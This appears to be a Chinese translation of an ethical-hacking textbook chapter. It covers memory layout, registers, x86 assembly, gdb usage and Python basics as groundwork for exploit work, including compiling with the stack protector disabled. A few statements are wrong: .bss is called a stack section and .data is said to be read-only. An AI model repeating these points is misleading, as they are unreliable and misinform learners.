简单来说，计算机内存是一种能够存储和检索数据的电子机制。可存储的最小数据量为 1 位，在内存中可由 1 或 0 表示。将 4 位组合在一起称为半字节（nibble），可表示 0000 到 1111 的值。十进制格式下共有 16 个二进制值，范围从 0 到 15。将两个半字节（即 8 位）组合在一起称为字节（byte），可表示从 0 到 (2^8 - 1)（即十进制的 0 到 255）的值。将两个字节组合在一起称为字（word），可表示从 0 到 (2^16 - 1)（即十进制的 0 到 65,535）的值。继续组合数据，如果将两个字组合在一起，则得到双字（double word，或 DWORD），可表示从 0 到 (2^32 - 1)（即十进制的 0 到 4,294,967,295）的值。两个 DWORD 组合在一起称为四字（quadruple word，或 QWORD），可表示从 0 到 (2^64 - 1)（即十进制的 0 到 18,446,744,073,709,551,615）的值。在 64 位 AMD 和 Intel 处理器的内存寻址方面，仅使用低 48 位，提供 256 TB 的可寻址内存。这在无数在线资源中均有详细文档记录。

计算机内存有多种类型；我们将重点介绍随机存取存储器（RAM）和寄存器。寄存器是嵌入处理器内的特殊内存形式，将在本章后面的“寄存器”部分中讨论。

### 随机存取存储器

在 RAM 中，任何存储的数据都可以随时检索——因此称为随机存取。但是，RAM 是易失性的，这意味着当计算机关闭时，RAM 中的所有数据都会丢失。在讨论基于 Intel 和 AMD 的现代产品（x86 和 x64）时，内存分别可寻址 32 位或 48 位，这意味着处理器用于选择特定内存地址的地址总线宽度为 32 或 48 位。因此，x86 处理器最多可寻址的内存为 4,294,967,295 字节，x64 处理器最多可寻址 281,474,976,710,655 字节（256 TB）。在 x64 64 位处理器上，未来可以通过添加更多晶体管来扩展寻址能力，但 2^48 对于当前系统来说已足够。

### 字节序（Endian）

在 1980 年的互联网实验说明（IEN）137《圣战与和平请求》中，Danny Cohen 在讨论字节序时部分总结了斯威夫特的《格列佛游记》，如下：

> 格列佛发现，现任统治者的祖父颁布了一项法律，要求利立浦特的所有公民只在蛋的小端敲开。当然，所有在蛋的大端敲开蛋的公民都对此宣言感到愤怒。小端派和大端派之间爆发了内战，导致大端派逃往附近岛屿——布列费斯库王国。¹

Cohen 论文的要点是描述将数据写入内存时的两种思想流派。有些人认为应先写入低序字节（Cohen 称之为“小端派”），而另一些人认为应先写入高序字节（Cohen 称之为“大端派”）。这实际上取决于您使用的硬件。例如，基于 Intel 的处理器使用小端序方法，而基于 Motorola 的处理器使用大端序。

### 内存分段

分段主题本身就足以占用一个章节。但是，基本概念很简单。每个进程（简化为执行中的程序）都需要访问其自身的内存区域。毕竟，您不希望一个进程覆盖另一个进程的数据。因此，内存被分解为小段并分配给


按需进行处理。稍后在本章中讨论的寄存器用于存储并跟踪进程维护的当前段。偏移寄存器用于跟踪段中关键数据片段所在的位置。分段还描述了进程虚拟地址空间内的内存布局。代码段、数据段和堆栈段等段被故意分配在进程虚拟地址空间内的不同区域，以防止冲突并允许相应地设置权限。每个运行的进程都有自己的虚拟地址空间，空间大小取决于架构（如 32 位或 64 位）、系统设置和操作系统。基本的 32 位 Windows 进程默认获得 4GB，其中 2GB 分配给进程的用户模式一侧，2GB 分配给进程的内核模式一侧。每个进程中只有这个虚拟空间的一小部分映射到物理内存，并且根据架构，有多种方法通过分页和地址转换来执行虚拟到物理内存映射。

## 内存中的程序

当进程被加载到内存中时，它们基本上被分解成许多小节。我们只关心六个主要节，将在以下章节中讨论。

### .text 节

`.text` 节，也称为代码段，基本上对应于二进制可执行文件的 `.text` 部分。它包含完成任务的机器指令。此节标记为可读且可执行，如果尝试写入，则会导致访问违规。当进程首次加载时，大小在运行时固定。

### .data 节

`.data` 节用于存储全局已初始化变量，例如

```
int a = 0 ;
```

此节的大小在运行时固定。它应仅标记为可读。

### .bss 节

下面的栈节 (.bss) 用于存储某些类型的全局未初始化变量，例如

```
int a ;
```

此节的大小在运行时固定。此段需要可读和可写，但不应可执行。

### 堆节

堆节用于存储动态分配的变量，并从低地址内存向高地址内存增长。内存分配通过 malloc()、realloc() 和 free() 函数控制。例如，要声明一个整数并在运行时分配内存，可以使用类似以下的代码：

```
int i = malloc (sizeof (int)); // dynamically allocates an integer, contains
// the preexisting value of that memory
```

堆节应当可读且可写，但不应可执行，因为攻击者若获得对进程的控制，可以轻松在栈和堆等区域执行 shellcode。

### 栈节

*栈* 节用于跟踪函数调用（递归地），并在大多数系统中从高地址内存向低地址内存增长。如果进程是多线程的，每个线程都会有一个唯一的栈。正如你将看到的，栈从高内存向低内存增长这一事实使得缓冲区溢出这一主题得以存在。局部变量存在于栈节中。栈段将在第 11 章中进一步解释。

### 环境/参数节

*环境/参数* 节用于存储运行时进程可能需要的系统级变量的副本。例如，路径、Shell 名称和主机名等内容会提供给运行中的进程。此节可写，允许其在格式化字符串和缓冲区溢出漏洞利用中使用。此外，命令行参数存储在此区域中。内存节按所示顺序排列。进程的内存空间如下：

| 低地址 | | | | | | 高地址 |
|---|---|---|---|---|---|---|
| .text | .data | .bss | 堆 | 未使用 | 栈 | 环境 |

### 缓冲区

术语 *缓冲区* 是指用于接收并保存数据，直到进程能够处理该数据的存储位置。由于每个进程可以拥有自己的缓冲区集合，因此区分它们至关重要；这是通过在进程内存的 .data 或 .bss 节中分配内存来完成的。请记住，一旦分配，缓冲区的长度即固定。缓冲区可以容纳任何预定义类型的数据；但就我们的目的而言，我们将关注基于字符串的缓冲区，它们用于存储用户输入和变量。

### 内存中的字符串

简单来说，*字符串* 只是内存中连续的字符数据数组。字符串在内存中通过首个字符的地址来引用。字符串由空字符（C 语言中的 \0）终结或结束。\0 是转义序列的一个示例。转义序列使开发人员能够指定特殊操作，例如使用 \n 换行或使用 \r 回车。反斜杠确保后续字符不被视为字符串的一部分。如果需要反斜杠，可以直接使用转义序列 \\，它只会显示一个单独的 \\。各种转义序列的表格可以在网上找到。

### 指针

指针是保存其他内存地址的特殊内存片段。在内存中移动数据是一个相对缓慢的操作。事实证明，与其移动数据，不如通过指针跟踪内存中项目的位置并简单地更改指针，这样要容易得多。指针保存在 4 或 8 字节的连续内存中，具体取决于应用程序是 32 位还是 64 位。例如，如前所述，字符串通过数组中首个字符的地址来引用。该地址值称为 *指针*。因此，C 语言中字符串的变量声明如下：

```
char * str; // This is read. Give me 4 or 8 bytes called str which is a
// pointer to a Character variable (the first byte of the
// array) .
```

请注意，尽管指针的大小设置为 4 或 8 字节，但字符串的大小并未通过前面的命令设置；因此，此数据被视为未初始化，并将放置在进程内存的 .bss 节中。

这是另一个示例；如果要在内存中存储指向整数的指针，可以在 C 程序中发出以下命令：

```
int * point1; //this is read, give me 4 or 8 bytes called point1, which is a
//pointer to an integer variable.
```

要读取指针所指内存地址的值，需使用 * 符号对指针进行解引用。因此，如果要打印前面代码中 point1 所指向的整数的值，可以使用以下命令：

```
printf("%d", *point1);
```

这里 * 用于对名为 point1 的指针进行解引用，并使用 printf() 函数显示整数的值。

### 将内存各部分拼合

掌握基础知识后，我们将查看一个简单示例，说明程序中内存的使用：

```c
#include <stdio.h>
#include <string.h>
/* memory.c */                       // this comment simply holds the program name
int _index = 5;                      // integer stored in data (initialized)
char * str;                          // string stored in bss (uninitialized)
int nothing;                         // integer stored in bss (uninitialized)
void funct1(int c) {                 // bracket starts function1 block
   int i=c;                          // stored in the stack region
   str = (char*) malloc (10 * sizeof (char)); // Reserves 10 characters in
                                      // the heap region */
   strncpy(str, "abcde", 5);         // copies 5 characters "abcde" into str
}                                   // end of function1
void main () {                       // the required main function
   funct1(1);                        // main calls function1 with an argument
}                                   // end of the main function
```

这个程序功能并不多。首先，在进程内存的不同节中分配了几块内存。执行 main 时，funct1() 会以参数 1 被调用。funct1() 被调用后，参数会被传递给名为 c 的函数变量。接下来，在堆上为名为 str 的 10 字节字符串分配内存。最后，5 字节字符串 "abcde" 被复制到名为 str 的新变量中。函数结束，然后 main() 程序结束。


**注意** 在继续本书之前，您必须对本材料有良好的掌握。如果需要复习本章的任何部分，请在继续之前先行复习。

## Intel 处理器

有几种常用的计算机架构。在本章中，我们关注 Intel 系列处理器或架构。*架构* 一词简单地指特定制造商实现其处理器的方式。x86 和 x86-64 架构至今仍是最常用的，而 ARM 等其他架构每年都在增长。每种架构都使用独特的指令集。一种处理器架构的指令不被另一种处理器理解。

## 寄存器

寄存器用于临时存储数据。将其视为处理器内部使用的 8 到 64 位的快速内存块。寄存器可分为四类（32 位寄存器以 *E* 开头，64 位寄存器以 *R* 开头，例如 EAX 和 RAX）。这些寄存器在表 2-4 中列出并进行了描述。


| 寄存器类别 | 寄存器名称 | 用途 |
|---|---|---|
| 通用寄存器 | 32 位：EAX, EBX, ECX, EDX<br>64 位：RAX, RBX, RCX, RDX, R8-R15 | 用于操作数据。 |
| | AX, BX, CX, DX | 前项的 16 位版本。 |
| | AH, BH, CH, DH, AL, BL, CL, DL | 前项的 8 位高字节和低字节。 |
| 段寄存器 | CS, SS, DS, ES, FS, GS | 16 位。用于保存内存地址的第一部分，以及指向代码、堆栈和额外数据段的指针。 |
| 偏移寄存器 | | 用于指示与段寄存器相关的偏移量。 |
| | EBP/RBP（基址指针） | EBP 指向函数堆栈上局部环境的起始位置。64 位下基址指针的使用取决于帧指针省略、语言支持以及寄存器 R8–R15 的使用情况。 |
| | ESI/RSI（源索引） | 用于保存在使用内存块的操作中数据源偏移量。 |
| | EDI/RDI（目的索引） | 用于保存在使用内存块的操作中目的数据偏移量。 |
| | ESP/RSP（堆栈指针） | 用于指向堆栈顶部。 |
| 特殊寄存器 | | 仅由 CPU 使用。 |
| | EFLAGS 或 RFLAGS 寄存器；需要了解的关键标志有<br>ZF=零标志<br>IF=中断允许标志<br>SF=符号标志 | CPU 用于跟踪逻辑结果和处理器状态。 |
| | EIP 或 RIP（指令指针） | 用于指向下一条要执行的指令的地址。 |

虽然已有整本书专门讲述汇编语言，但你只需轻松掌握一些基础知识，就能成为一名更高效的道德黑客。

## 机器语言 vs. 汇编 vs. C

计算机只能理解机器语言——即 1 和 0 的模式。而人类则难以解读长长的 1 和 0 字符串，因此汇编语言应运而生，通过助记符帮助程序员记住一系列数字。随后，出现了 C 语言等更高级的语言，它们进一步将人类与 1 和 0 隔离。如果你想成为一名优秀的道德黑客，就必须抵制社会潮流，回归汇编的基础。

## AT&T vs. NASM

汇编语法主要有两种形式：AT&T 和 Intel。AT&T 语法由 GNU 汇编器（gas）使用，gas 包含在 gcc 编译器套件中，常被 Linux 开发者使用。在 Intel 语法汇编器中，Netwide Assembler（NASM）是最常用的。NASM 格式被许多 Windows 汇编器和调试器使用。这两种格式生成的机器语言基本相同；然而，在样式和格式上存在少数差异：

- 源操作数和目标操作数的顺序颠倒，并且用于标记注释开头的符号不同：
  - NASM 格式  CMD <dest>, <source> <; comment>
  - AT&T 格式  CMD <source>, <dest> <# comment>
- AT&T 格式在寄存器前使用 %；NASM 不使用。% 表示“间接操作数”。
- AT&T 格式在字面量前使用 $；NASM 不使用。$ 表示“立即数操作数”。
- AT&T 处理内存引用的方式与 NASM 不同。

本节以 NASM 格式展示每条命令的语法和示例。此外，还展示了同一命令在 AT&T 格式下的示例以供比较。通常，所有命令均采用以下格式：

```
<optional label>: <mnemonic> <operands> <optional comments>
```

操作数（参数）的数量取决于命令（助记符）。虽然汇编指令众多，但你只需掌握少数几条。这些内容将在以下各节中介绍。

### mov

mov 命令将数据从源复制到目标。源位置的值不会被移除。

| NASM 语法 | NASM 示例 | AT&T 示例 |
|---|---|---|
| mov <dest>, <source> | mov eax, 51h;comment | movl $51h, %eax #comment |

数据不能直接从内存移动到段寄存器。相反，你必须使用通用寄存器作为中间步骤。以下是示例：

```
mov eax, 1234h ; store the value 1234 (hex) into EAX
mov cs, ax      ; then copy the value of AX into CS.
```

### add and sub

add 命令将源加到目标，并将结果存储在目标中。sub 命令从目标减去源，并将结果存储在目标中。

| NASM 语法 | NASM 示例 | AT&T 示例 |
|---|---|---|
| add <dest>, <source> | add eax, 51h | addl $51h, %eax |
| sub <dest>, <source> | sub eax, 51h | subl $51h, %eax |

### push and pop

push 和 pop 命令用于向堆栈压入和弹出项目。

| NASM 语法 | NASM 示例 | AT&T 示例 |
|---|---|---|
| push <value> | push eax | pushl %eax |
| pop <dest> | pop eax | popl %eax |

### xor

xor 命令执行按位逻辑“异或”（XOR）操作——例如，11111111 XOR 11111111 = 00000000。因此，一种选择是对寄存器或内存位置使用 XOR value, value 将其清零。另一种常用的按位运算符是 AND。我们可以执行按位 AND 运算，以判断寄存器或内存位置中特定位是置位还是清除，或者判断像 malloc 这样的函数调用是返回指向某块内存的指针还是返回空指针。这可以通过在调用 malloc 后使用 test eax, eax 等汇编代码来完成。如果 malloc 调用返回空指针，则 test 操作会将 FLAGS 寄存器中的“零标志”设置为 1。在此 test 操作之后，条件跳转指令（如 jnz）所遵循的路径可基于 AND 操作的结果。以下是在汇编中的示例：

```
call malloc(100)
test eax, eax
jnz loc_6362cc012
```

| NASM 语法 | NASM 示例 | AT&T 示例 |
|---|---|---|
| xor <dest>, <source> | xor eax, eax | xor %eax, %eax |

### jne, je, jz, jnz, and jmp

jne、je、jz、jnz 和 jmp 命令根据 eflags“零标志”的值将程序流程分支到另一位置。jne/jnz 在零标志等于 0 时跳转；je/jz 在零标志等于 1 时跳转；而 jmp 总是跳转。

| NASM 语法 | NASM 示例 | AT&T 示例 |
|---|---|---|
| jnz <dest> / jne <dest> | jne start | jne start |
| jz <dest> / je <dest> | jz loop | jz loop |
| jmp <dest> | jmp end | jmp end |

### call and ret

call 指令将执行重定向到另一个函数。call 指令之后的虚拟内存地址首先被压入堆栈，作为返回指针，然后将执行重定向到被调用的函数。ret 命令用于过程结束时，将流程返回到 call 指令之后的命令。

| NASM 语法 | NASM 示例 | AT&T 示例 |
|---|---|---|
| call <dest> | call subroutine1 | call subroutine1 |
| ret | ret | ret |

### inc and dec

inc 和 dec 命令分别递增和递减目标。

| NASM 语法 | NASM 示例 | AT&T 示例 |
|---|---|---|
| inc <dest> | inc eax | incl %eax |
| dec <dest> | dec eax | decl %eax |

### lea

lea 命令将源的有效地址加载到目标中。这通常在将目标参数传递给字符串复制函数时出现，例如在以下 AT&T 语法 gdb 反汇编示例中，我们将目标缓冲区地址写入堆栈顶部，作为 gets 函数的参数：

```
lea -0x20(%ebp), %eax
mov %eax, (%esp)
call 0x8048608 <gets@plt>
```

| NASM 语法 | NASM 示例 | AT&T 示例 |
|---|---|---|
| lea <dest>, <source> | lea eax, [esi +4] | leal 4(%esi), %eax |

### System Calls: int, sysenter, and syscall

系统调用是进程请求执行特权操作的一种机制，在此期间，代码的上下文和执行会从用户模式切换到内核模式。调用系统调用的传统 x86 指令是 int 0x80。这被视为已弃用，但仍在 32 位操作系统上受支持。sysenter 指令是其面向 32 位应用程序的后继指令。对于基于 64 位 Linux 的操作系统和应用程序，需要使用 syscall 指令。在编写 shellcode 及其他专用程序或有效载荷时，必须深入理解调用系统调用并设置适当参数的各种方法。

## Addressing Modes

在汇编语言中，可使用多种方法完成同一任务。尤其是，有许多方法可以指示要在内存中操作的有效地址。这些选项称为 _寻址模式_，如表 2-5 所示。

| 寻址模式 | 描述 | NASM 示例 |
|---|---|---|
| 寄存器 | 寄存器保存要操作的数据。无内存交互。两个寄存器大小必须相同。 | mov rbx, rdx<br>add al, ch |
| 立即数 | 源操作数是一个数值。<br>默认情况下为十进制；使用 h 表示十六进制。 | mov eax, 1234h<br>mov dx, 301 |
| 直接 | 第一个操作数是要操作的内存地址。它用方括号标记。 | mov bh, 100<br>mov [4321h], bh |
| 寄存器间接 | 第一个操作数是带方括号的寄存器，用于保存要操作的地址。 | mov [di], ecx |
| 基址相对 | 要操作的有效地址通过 ebx 或 ebp 加上一个偏移值来计算。 | mov edx, 20[ebx] |
| 索引相对 | 与基址相同，但使用 edi 和 esi 来保存偏移量。 | mov ecx, 20[esi] |
| 基址索引相对 | 有效地址通过组合基址相对和索引相对模式来查找。 | mov ax, [bx][si]+1 |

## Assembly File Structure

汇编源文件分为以下几个部分：

- .model .model 指令指示 .data 和 .text 节的大小。
- .stack .stack 指令标记堆栈节的开头，并以字节为单位指示堆栈的大小。
- .data .data 指令标记 .data 节的开头，并定义变量（包括已初始化和未初始化的变量）。
- .text .text 指令保存程序的命令。


例如，以下汇编程序将“Hello, haxor!”打印到屏幕上：

```
section .data
	; section declaration
msg db "Hello, haxor!",0xa	; our string with a carriage return
len equ $ - msg		; length of our string, $ means here
section .text			; mandatory section declaration

	; now, write our string to stdout
	; notice how arguments are loaded in reverse
mov	edx,len		; third argument (message length)
mov	ecx,msg		; second argument (pointer to message to write)
mov	ebx,1		; load first argument (file handle (stdout))
mov	eax,4		; system call number (4=sys_write)
int	0x80		; call kernel interrupt and exit

mov	ebx,0		; load first syscall argument (exit code)
mov	eax,1		; system call number (1=sys_exit)
int	0x80		; call kernel interrupt and exit
```

## 汇编

汇编的第一步是将汇编代码转换为目标代码（32位示例）：

```
$ nasm -f elf hello.asm
```

接下来，调用链接器生成可执行文件：

```
$ ld -s -o hello hello.o
```

最后，可以运行可执行文件：

```
$ ./hello
```

```
Hello, haxor!
```

## 使用gdb调试

在Unix系统上进行C语言编程时，首选的调试器是gdb。它提供了一个健壮的命令行界面，允许你在完全控制程序的同时运行程序。例如，你可以在程序执行过程中设置断点，并随时监控内存或寄存器的内容。正因为如此，gdb之类的调试器对程序员和黑客都非常宝贵。对于希望在Linux上获得更图形化调试体验的人，可以使用ddd和edb等替代方案或扩展。

## gdb基础

gdb中常用命令列于表2-6并加以说明。

| 命令 | 描述 |
|---|---|
| b <function> | 在<function>处设置断点 |
| b *mem | 在绝对内存位置设置断点 |
| info b | 显示断点信息 |
| delete b | 删除断点 |
| run <args> | 使用给定参数在gdb内开始调试程序 |
| info reg | 显示当前寄存器状态信息 |
| stepi or si | 执行一条机器指令 |
| next or n | 执行一个函数 |
| bt | 回溯命令，显示栈帧名称 |
| up/down | 在栈帧之间上下移动 |
| print var / print /x $<reg> | 分别打印变量的值和寄存器的值 |
| x /NTA | 检查内存，其中N = 要显示的单元数；T = 要显示的数据类型（x:十六进制，d:十进制，c:字符，s:字符串，i:指令）；A = 绝对地址或符号名称，例如“main” |
| quit | 退出gdb |

表2-6 常用gdb命令

要调试我们的示例程序，我们发出以下命令。第一个命令将带有调试和其他有用选项重新编译（参阅表2-3）。

```
$gcc -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -o meet meet.c
$gdb -q meet
(gdb) run Mr Haxor
Starting program: /home/aaaharper/book/meet Mr Haxor
Hello Mr Haxor
Bye Mr Haxor

Program exited with code 015.
(gdb) b main
Breakpoint 1 at 0x8048393: file meet.c, line 9.
(gdb) run Mr Haxor
Starting program: /home/aaaharper/book/meet Mr Haxor

Breakpoint 1, main (argc=3, argv=0xbffffbe4) at meet.c:9
9		greeting(argv[1],argv[2]);
(gdb) n
Hello Mr Haxor
10		printf("Bye %s %s\n", argv[1], argv[2]);
(gdb) n
Bye Mr Haxor
11		}
(gdb) p argv[1]
$1 = 0xbffffd06 "Mr"
(gdb) p argv[2]
$2 = 0xbffffd09 "Haxor"
(gdb) p argc
$3 = 3
(gdb) info b
Num Type Disp Enb Address What
1 breakpoint keep y 0x08048393 in main at meet.c:9
	breakpoint already hit 1 time
(gdb) info reg
eax 0xd 13
ecx 0x0 0
edx 0xd 13
...truncated for brevity...
(gdb) quit
A debugging session is active.
Do you still want to close the debugger? (y or n) y
$
```

## 使用gdb进行反汇编

要使用gdb进行反汇编，需要以下两个命令：

```
set disassembly-flavor <intel/att>
```

```
disassemble <function name>
```

第一个命令在Intel（NASM）和AT&T格式之间切换。默认情况下，gdb使用AT&T格式。第二个命令反汇编给定的函数（如果给定，则包括main）。例如，要以两种格式反汇编名为greeting的函数，请输入：

```
$gdb -q meet
(gdb) disassemble greeting
Dump of assembler code for function greeting:
0x0804835c <greeting>:   push   %ebp
0x0804835d <greeting+1>: mov    %esp,%ebp
0x0804835f <greeting+3>: sub    $0x190,%esp
0x08048365 <greeting+9>: pushl  0xc(%ebp)
0x08048368 <greeting+12>:    lea    0xffffff70(%ebp),%eax
0x0804836e <greeting+18>:    push   %eax
0x0804836f <greeting+19>:    call   0x804829c <strcpy>
0x08048374 <greeting+24>:    add    $0x8,%esp
0x08048377 <greeting+27>:    lea    0xffffff70(%ebp),%eax
0x0804837d <greeting+33>:    push   %eax
0x0804837e <greeting+34>:    pushl  0x8(%ebp)
0x08048381 <greeting+37>:    push   $0x8048418
0x08048386 <greeting+42>:    call   0x804828c <printf>
0x0804838b <greeting+47>:    add    $0xc,%esp
0x0804838e <greeting+50>:    leave
0x0804838f <greeting+51>:    ret
End of assembler dump.
(gdb) set disassembly-flavor intel
(gdb) disassemble greeting
Dump of assembler code for function greeting:
0x0804835c <greeting>:   push   ebp
0x0804835d <greeting+1>: mov    ebp,esp
0x0804835f <greeting+3>: sub    esp,0x190
...truncated for brevity...
End of assembler dump.
(gdb) quit
$
```

以下是另外几个常用命令：

```
info functions
disassemble /r <function name>
```

info functions命令显示所有动态链接函数，以及所有内部函数（除非程序已被剥离）。使用带有/r <function name>选项的disassemble函数会输出操作码、操作数以及指令。操作码本质上是预汇编汇编代码的机器码表示。

## Python生存技能

Python是一种流行的解释型、面向对象的编程语言，与Perl类似。黑客工具（以及许多其他应用程序）使用Python，因为它学习和使用起来非常容易，功能强大，语法清晰，易于阅读。本简介仅涵盖你需要理解的最基本内容。你几乎肯定还想了解更多，为此可以查阅众多优秀的Python专著或www.python.org上的详尽文档。Python 2.7计划于2020年退役，但撰写本文时官方日期尚未公布。多年来，许多从业者会告诉你，如果你想学习Python以便使用、修改或扩展现有Python项目，应先学习Python 2.7。如果你的目标是开始新的Python开发，则应专注于Python 3，因为它修复了Python 2.7中的许多问题。仍有无数程序依赖于Python 2.6或Python 2.7，例如Immunity Security的Immunity Debugger。

## 获取Python

我们将跳过常见的架构图和设计目标介绍，直接告诉你从www.python.org/download/下载适用于你操作系统的Python版本，以便跟随本文操作。或者，尝试在命令提示符下键入python直接启动它——许多Linux发行版以及macOS X 10.3及更高版本都默认预装了Python。


注意：对于macOS X用户，Apple未包含Python的IDLE用户界面，而该界面对于Python开发非常有用。你可以从www.python.org/download/mac/获取它。或者，你可以选择按照http://pythonmac.org/wiki/XcodeIntegration上的说明，在Apple的开发环境Xcode中编辑和启动Python。

因为Python是解释型（非编译型）语言，你可以使用其交互提示符立即获得Python的反馈。我们将在接下来的几页中使用它，因此现在请通过键入python启动交互提示符。

## Python中的“Hello, World！”

每种语言介绍都必须以例行公事的“Hello, world!”示例开始，以下是Python 2.7中的示例：

```
% python
... (three lines of text deleted here and in subsequent examples) ...
>>> print 'Hello, world!'
Hello, world!
```

或者，如果你更喜欢以文件形式提供示例：


```
% cat > hello.py
print 'Hello, world!'
^D   # This is simple CTRL+D being pressed to break out
% python hello.py
Hello, world!
```

从 Python 3 开始，print 不再是专门的语句，而是一个真正的函数。2 这是一个必要的更改，要求像普通函数调用一样使用括号。以下是 Python 3.0 中的“Hello, world！”：

```
% python
>>> print ("Hello, world!")
Hello, world!
```

## Python 对象

你真正需要很好理解的主要一点是 Python 可用于存储数据的不同对象类型，以及它如何操作这些数据。我们将介绍五大数据类型：字符串、数字、列表、字典和文件。之后，我们将介绍一些基本语法以及联网方面的最基本知识。

## 字符串

你在“使用 Python 的 Hello, World！”部分已经用过一个字符串对象了。字符串在 Python 中用于存储文本。展示使用和操作字符串有多简单的最佳方法是演示该技术。以下代码适用于 Python 2.7 和 Python 3：

```
% python
>>> string1 = 'Dilbert'
>>> string2 = 'Dogbert'
>>> string1 + string2
'DilbertDogbert'
>>> string1 + " Asok " + string2
'Dilbert Asok Dogbert'
>>> string3 = string1 + string2 + "Wally"
>>> string3
'DilbertDogbertWally'
```

```
>>> string3[2:10] # string 3 from index 2 (0-based) to 10
'lbertDog'
>>> string3[0]
'D'
>>> len(string3)
19
>>> string3[14:] # string3 from index 14 (0-based) to end
'Wally'
>>> string3[-5:] # Start 5 from the end and print the rest
'Wally'
>>> string3.find('Wally') # index (0-based) where string starts
14
>>> string3.find('Alice') # -1 if not found
-1
>>> string3.replace('Dogbert','Alice') # Replace Dogbert with Alice
'DilbertAliceWally'
>>> print('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA') # 30 A's the hard way
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
>>> print ('A' * 30) # 30 A's the easy way
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

这些是使用简单字符串时会用到的基本字符串操作函数。语法简单直接，正如你从 Python 中会期望的那样。需要立即做出的一个重要区别是：这些字符串（我们将它们命名为 string1、string2 和 string3）仅仅是一个指针——对于熟悉 C 的人来说——或者是内存中某处数据块的一个标签。一个有时会让新程序员感到困惑的概念是：一个标签（或指针）指向另一个标签。以下代码和图 2-1 演示了这个概念：



图 2-1 两个标签指向内存中的同一个字符串

```
>>> label1 = 'Dilbert'
>>> label2 = label1
```

此时，内存中某处存有一个存储了 Python 字符串 'Dilbert' 的数据块。我们还有两个标签指向该内存数据块。如果随后更改 label1 的赋值，label2 则不会改变：

```
... continued from above
>>> label1 = 'Dogbert'
>>> label2
'Dilbert'
```

如图 2-2 所示，label2 并非严格指向 label1。相反，它指向 label1 在被重新赋值之前所指向的同一个对象。



图 2-2 Label1 被重新赋值以指向不同的字符串。

## 数字

与 Python 字符串类似，数字指向一个可以包含任何类型数字的对象。它可以存储小数、大数、复数、负数，以及你能想到的任何其他类型的数字。语法与你预期的一样：

```
>>> n1=5   # Create a Number object with value 5 and label it n1
>>> n2=3
>>> n1 * n2
15
>>> n1 ** n2      # n1 to the power of n2 (5^3)
125
>>> 5 / 3, 5 % 3      # Divide 5 by 3, then 5 modulus 3
(1.6666666666666667, 2)
# In Python 2.7, the above 5 / 3 calculation would not result in a float without
# specifying at least one value as a float.
>>> n3 = 1        # n3 = 0001 (binary)
>>> n3 << 3       # Shift left three times: 1000 binary = 8
8
>>> 5 + 3 * 2      # The order of operations is correct
11
```

现在你已经了解数字的工作原理，我们可以开始组合对象了。当我们计算字符串加数字时会发生什么？

```
>>> s1 = 'abc'
>>> n1 = 12
>>> s1 + n1
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
TypeError: Can't convert 'int' object to str implicitly
```

出错了！我们需要帮助 Python 理解我们想要发生什么。在这种情况下，将 'abc' 和 12 组合的唯一方法是将 12 转换为字符串。我们可以即时完成此操作：

```
>>> s1 + str(n1)
'abc12'
>>> s1.replace('c', str(n1))
'ab12'
```

当合理时，不同类型可以一起使用：

```
>>> s1*n1  # Display 'abc' 12 times
'abcabcabcabcabcabcabcabcabcabcabcabc'
```

关于对象还有一点说明——仅仅对对象进行操作通常不会改变对象。只有当你显式地将对象的标签（或指针）设置为新值时，对象本身（数字、字符串或其他）才会通常发生变化，如下所示：

```
>>> n1 = 5
>>> n1 ** 2        # Display value of 5^2
25
>>> n1           # n1, however is still set to 5
5
>>> n1 = n1 ** 2  # Set n1 = 5^2
>>> n1          # Now n1 is set to 25
25
```

## 列表

我们将介绍的下一个内置对象类型是列表。你可以将任何类型的对象放入列表中。列表通常通过在对象或一组对象周围添加 [ 和 ] 来创建。你可以像对字符串那样进行同样的巧妙“切片”操作。切片是指仅返回对象值的子集的技术——例如，使用 label1[5:10] 从第五个值到第十个值。让我们看看列表类型是如何工作的：

```
>>> mylist = [1,2,3]
>>> len(mylist)
3
>>> mylist*4      # Display mylist, mylist, mylist, mylist
[1, 2, 3, 1, 2, 3, 1, 2, 3, 1, 2, 3]
>>> 1 in mylist    # Check for existence of an object
True
>>> 4 in mylist
False
>>> mylist[1:]     # Return slice of list from index 1 and on
[2, 3]
>>> biglist = [['Dilbert', 'Dogbert', 'Catbert'],
...  ['Wally', 'Alice', 'Asok']]   # Set up a two-dimensional list
>>> biglist[1][0]
'Wally'
>>> biglist[0][2]
'Catbert'
>>> biglist[1] = 'Ratbert'       # Replace the second row with 'Ratbert'
>>> biglist
[['Dilbert', 'Dogbert', 'Catbert'], 'Ratbert']
>>> stacklist = biglist[0]       # Set another list = to the first row
>>> stacklist
['Dilbert', 'Dogbert', 'Catbert']
>>> stacklist = stacklist + ['The Boss']
>>> stacklist
['Dilbert', 'Dogbert', 'Catbert', 'The Boss']
>>> stacklist.pop()              # Return and remove the last element
'The Boss'
>>> stacklist.pop()
'Catbert'
>>> stacklist.pop()
'Dogbert'
>>> stacklist
['Dilbert']
>>> stacklist.extend(['Alice', 'Carol', 'Tina'])
>>> stacklist
['Dilbert', 'Alice', 'Carol', 'Tina']
>>> stacklist.reverse()
>>> stacklist
['Tina', 'Carol', 'Alice', 'Dilbert']
>>> del stacklist[1]             # Remove the element at index 1
>>> stacklist
['Tina', 'Alice', 'Dilbert']
```

接下来，我们将快速查看字典和文件，然后将所有元素组合在一起。

## 字典

字典与列表类似，不同之处在于存储在字典中的对象是通过键引用的，而不是通过对象的索引引用的。这证明是一种非常方便的存储和检索数据的机制。字典是通过在键值对周围添加 { 和 } 来创建的，如下所示：

```
>>> d = { 'hero' : 'Dilbert' }
>>> d['hero']
